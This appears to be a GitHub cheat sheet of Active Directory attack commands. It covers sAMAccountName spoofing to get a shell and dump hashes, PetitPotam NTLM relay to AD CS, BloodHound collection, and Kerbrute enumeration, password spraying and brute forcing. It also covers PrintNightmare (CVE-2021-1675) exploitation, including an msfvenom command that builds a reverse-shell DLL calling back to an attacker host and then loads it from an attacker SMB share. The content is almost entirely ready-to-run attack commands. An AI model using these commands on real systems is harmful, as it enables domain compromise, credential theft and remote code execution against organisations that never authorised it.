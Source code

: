 ##### SAM THE HASH #####

```bash
get shell : python3 sam_the_admin.py "capvalue.ma/m.kassih:password" -dc-ip 172.16.15.105 -shell

dump hashes : python3 sam_the_admin.py "capvalue.ma/m.kassih:password" -dc-ip 172.16.15.105 -dump

```

##### PETITPOTAM #####

```bash
'https://pentestlab.blog/2021/09/14/petitpotam-ntlm-relay-to-ad-cs/'

cmd 1 : sudo python3 ntlmrelayx.py -debug -smb2support --target http://pki.lab.local/certsrv/certfnsh.asp --adcs --template KerberosAuthentication

cmd 2 : python3 PetitPotam.py $attacker-ip $dc-ip  
```

##### BLOODHOUND #####

```bash

from terminal : bloodhound-python -u ned.flanders_adm -p 'Lefthandedyeah!' -d corp.local -ns 172.16.1.5 -c All -v



```

##### KERBRUTE #####

```bash

enum users : kerbrute userenum -d test.local usernames.txt

password spray : kerbrute passwordspray -d test.local domain_users.txt password123

brute user : kerbrute bruteuser -d test.local passwords.txt john

```

##### PrintNightmare #####

```bash
Scanning : rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR' (impacket)

range Scanning: cat hosts1.txt | while read line ;do echo "################# "$line" ##############"; rpcdump.py '@'$line | egrep 'MS-RPRN|MS-PAR' ; done | tee -a printnightmare.txt

generate dll reverse shell : msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.0.106 LPORT=4444 -f dll -o rev.dll

smbsever : python3 smbserver.py share $folder_to_share -smb2support 

Exploit with password: python3 CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'

Exploit with hash : python3 CVE-2021-1675.py hackit.local/domain_user@192.168.1.10 '\\192.168.1.215\smb\addCube.dll' -hashes "NTLM-hash"
```
